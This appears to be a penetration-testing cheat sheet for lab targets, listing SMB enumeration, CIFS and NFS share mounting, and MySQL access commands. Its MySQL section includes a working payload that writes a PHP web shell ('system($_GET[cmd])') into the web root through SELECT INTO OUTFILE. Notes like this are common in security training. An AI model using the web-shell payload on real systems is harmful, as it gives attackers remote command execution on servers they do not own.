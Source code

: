 ```bash
  > getdompwinfo
  > querydominfo
 
 Note: It is found on old windows servers.
 
#Enumerate SMB shares;
 enum4Linux -a <victim_IP>

#SMB version numbering script;
 smbver.sh -> https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html
```


# cifs share mount 
```bash
mount -t cifs -o username=Finance //<ip>/<folder> /mnt/smb/
```
 
-------------------------------------------------------------------------------------------------------------------------------

# NFS 3 ###
```bash
#Controlling public shares; <HTB jail>
 showmount -e <victim_ip>  # should be * 
 showmount -a <ip>

Example shares;
 /var
 /asd

#Mounting;
 mkdir -p /mnt/test/{sharenames}    #Indexing

 mount -t nfs -o vers=3 <ip>:<sharename> /mnt/test/<sharename>   #We mount the  directory that is open on the target to the /brc directory that we have created on our own machine. 
```
Do the the ls-la and check the user group permissions 
change the same with and access the or write the file in share



-------------------------------------------------------------------------------------------------------------------------------

# MySQL ###
```bash
#Connecting to the MySQL;
 mysql --host=INSERTIPADDRESS -u root -p
 
#Listing databases;
 show databases

#Choosing a database;
 use information_schema

#Uploading the shell;
 select 1,2,3,'<?php system($_GET[cmd]); ?>',6,7,8,9,10 INTO OUTFILE '/var/www/brc_shell.php';
 ```
-------------------------------------------------------------------------------------------------------------------------------

